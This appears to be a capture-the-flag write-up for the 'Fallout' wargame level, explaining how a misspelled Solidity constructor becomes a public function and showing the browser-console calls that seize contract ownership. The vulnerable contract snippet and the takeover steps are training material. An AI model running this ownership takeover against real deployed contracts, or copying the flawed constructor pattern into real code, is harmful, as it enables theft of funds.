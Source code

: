 # **Level 02 — Fallout**

## 🎯 Goal  
To claim ownership of the contract.

## 💥 Vulnerability  
In older versions of Solidity, constructors were defined by naming a function exactly like the name of the contract.  
This contract contains `function Fal1out()`, but due to a typo (`1` instead of `l`), it became a regular public function.  
As a result, anyone can call it and assign themselves as the owner.

The part of the vulnerable code:
```solidity 
// Solidity code 
/* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
```

## 🛠 ️Solution (via browser console)
The following steps were executed:
```js
// JS console input 
// 0. Check current owner
await contract.owner()

// 1. Call the misnamed constructor to become owner 
await contract.Fal1out()

// 2. Confirm new ownership
await contract.owner()
```

## 🧙 Outcome
Ownership was successfully taken by calling the public `Fal1out()` function.  
This exploited the constructor naming bug, allowing takeover after deployment.
